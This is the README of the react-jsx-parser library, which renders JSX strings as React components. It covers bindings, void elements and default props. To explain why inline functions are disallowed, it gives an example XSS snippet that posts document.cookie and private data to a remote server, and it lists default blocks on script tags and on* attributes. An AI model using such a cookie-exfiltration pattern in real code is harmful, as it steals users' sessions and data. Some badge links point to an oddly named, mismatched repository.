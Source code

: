 # react-jsx-parser [![CircleCI][circle-ci-badge]](https://circleci.com/gh/hutechwebsite/perspiciatis-modi-voluptates-ea) [![Version][npm-version]][npm-link] [![NPM Downloads][npm-downloads]][npm-link] [![License][npm-license]](https://github.com/hutechwebsite/perspiciatis-modi-voluptates-ea/blob/master/LICENSE)

[circle-ci-badge]: https://circleci.com/gh/hutechwebsite/perspiciatis-modi-voluptates-ea.svg?style=svg
[npm-version]: https://img.shields.io/npm/v/react-jsx-parser.svg
[npm-downloads]: https://img.shields.io/npm/dt/react-jsx-parser.svg
[npm-license]: https://img.shields.io/npm/l/react-jsx-parser.svg
[npm-link]: https://www.npmjs.com/package/react-jsx-parser

A React component which can parse JSX and output rendered React Components.

## Basic Usage - Injecting JSX as a String
```javascript
import React from 'react'
import JsxParser from 'react-jsx-parser'
import Library from 'some-library-of-components'

class InjectableComponent extends Component {
  static defaultProps = {
    eventHandler: () => {}
  }
  // ... inner workings of InjectableComponent
}

const MyComponent = () => (
  <JsxParser
    bindings={{
      foo: 'bar',
      myEventHandler: () => { /* ... do stuff ... */ },
    }}
    components={{ InjectableComponent, Library }}
    jsx={`
      <h1>Header</h1>
      <InjectableComponent eventHandler={myEventHandler} truthyProp />
      <Library.SomeComponent someProp={foo} calc={1 + 1} stringProp="foo" />
      <Library.DataFetcher>((data) => <div>{data.name}</div>)</Library.DataFetcher>
    `}
  />
)
```

Because `InjectableComponent` is passed into the `JsxParser.props.components` prop, it is treated as a known element
type, and created using `React.createElement(...)` when parsed out of the JSX. You can also pass in a whole collection
of components, as shown by the `Library` binding, and then access the individual items with `LibraryName.ComponentName`.

Finally, a note about property bindings. The `JsxParser` can handle several types of binding:
 - implicit `true` bindings, such as `<InjectableComponent truthyProp />` (equivalent to `truthyProp={true}`)
 - string-value binding, such as `stringProp="foo"`
 - expression-binding, such as `calc={1 + 1}`
 - named-value binding, such as `eventHandler={myEventHandler}` (note that this requires a match in `bindings`)
 - simple [single statement arrow expressions](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Functions/Arrow_functions#basic_syntax) `(item) => <p>{item.name}</p>`

The component **_does not_** support inline function declarations, such as:
 - `onClick={function (event) { /* do stuff */ }}`, or
 - `onKeyPress={event => { /* do stuff */}}`
 - Function or arrow functions with bodies `() => { return <p>This will not work</p> }`

This is to prevent inadvertent XSS attack vectors. Since the primary use of this component is to allow JSX to be stored server-side, and then late-interpreted at the client-side, this restriction prevents a malicious user from stealing info by executing a situation like:
```javascript
<JsxParser
  bindings={{ userInfo: { private: 'data' } }}
  onClick={() => {
    fetch('/some/remote/server', {
      body: JSON.stringify({ cookies: document.cookie, userInfo })
    })
  }}
/>
```

## Advanced Usage - Injecting Dynamic JSX
```javascript
// Import desired set of components
import { ComponentA, ComponentB } from 'somePackage/Components'
import ComponentC from 'somePackage/ComponentC'
import ComponentD from 'somePackage/ComponentD'
...
// Load an HTML or XML fragment from a remote API
const dynamicHtml = loadRemoteData()
...
// Within your component's render method, bind these components and the fragment as props
<JsxParser
  bindings={bindings}
  components={{ ComponentA, ComponentB, ComponentC, ComponentD }}
  jsx={dynamicHtml}
/>
```

Any `ComponentA`, `ComponentB`, `ComponentC` or `ComponentD` tags in the dynamically loaded XML/HTML fragment will be rendered as React components. Any unrecognized tags will be handled by `React`.

_Note:_ Non-standard tags may throw errors and warnings, but will typically be rendered in a reasonable way.

## Advanced Usage - HTML & Self-Closing Tags
When rendering HTML, standards-adherent editors will render `img`, `hr`, `br`, and other
[void elements](https://www.w3.org/TR/2011/WD-html-markup-20110113/syntax.html#void-elements) with no trailing `/>`. While this is valid HTML, it is _not_ valid JSX. If you wish to opt-in to a more HTML-like parsing style, set the `autoCloseVoidElements` prop to `true`.

### Example:
```jsx
// <hr> has no closing tag, which is valid HTML, but not valid JSX
<JsxParser jsx="<hr><div className='foo'>Foo</div>" />
// Renders: null

// <hr></hr> is invalid HTML, but valid JSX
<JsxParser jsx="<hr></hr><div className='foo'>Foo</div>" />
// Renders: <hr><div class='foo'>Foo</div>

// This is valid HTML, and the `autoCloseVoidElements` prop allows it to render
<JsxParser autoCloseVoidElements jsx="<hr><div className='foo'>Foo</div>" />
// Renders: <hr><div class='foo'>Foo</div>

// This would work in a browser, but will no longer parse with `autoCloseVoidElements`
<JsxParser autoCloseVoidElements jsx="<hr></hr><div className='foo'>Foo</div>" />
// Renders: null
```

## PropTypes / Settings
```javascript
JsxParser.defaultProps = {
  allowUnknownElements: true, // by default, allow unrecognized elements
  // if false, unrecognized elements like <foo> are omitted and reported via onError

  autoCloseVoidElements: false, // by default, unclosed void elements will not parse. See examples

  bindings: {}, // by default, do not add any additional bindings

  blacklistedAttrs: [/^on.+/i], // default: removes `on*` attributes (onClick, onChange, etc.)
  // any attribute name which matches any of these RegExps will be omitted entirely

  blacklistedTags:  ['script'], // by default, removes all <script> tags

  className: '', // space-delimited classes to add to wrapper (ignored if renderInWrapper=false)

  components: {}, // an object map of component tag-names to their definitions - see above
  // components must extend React.Component, React.PureComponent, or be a Function

  componentsOnly: false, // non-component HTML tags are allowed by default, omitted if true

  disableFragments: false, // if true, React <Fragment />s will not be used.
  // Note: This introduces subtle errors with regard to white-space, and is provided only for
  // backward compatibility with React 15.x

  disableKeyGeneration: false, // if true, rendering will not automatically generate `key` props.
  // Note: This may result in the "Child elements should have a unique 'key' prop " React error.

  jsx: '', // the jsx string to be parsed & rendered

  onError: () => {}, // if specified, any rendering errors are reported via this method

  showWarnings: false, // if true showWarnings, rendering errors are output with console.warn

  renderError: undefined, // if specified, this function can be used to render errors as a fallback

  renderInWrapper: true, // if false, the HTML output will have no <div> wrapper

  renderUnrecognized: tagName => null, // unrecognized tags are rendered via this method
}
```

## Older Browser Support

If your application needs to support older browsers, like `IE11`, import from `react-jsx-parser/dist/es5/react-jsx-parser.min.js`,
which transpiles the `acorn-jsx` dependency down to ES5, and also adds additional polyfill support for code used in this package.

**Note**: <u>not</u> recommended for implementations which only support modern browsers, as the ES5 version is roughly 30% larger.

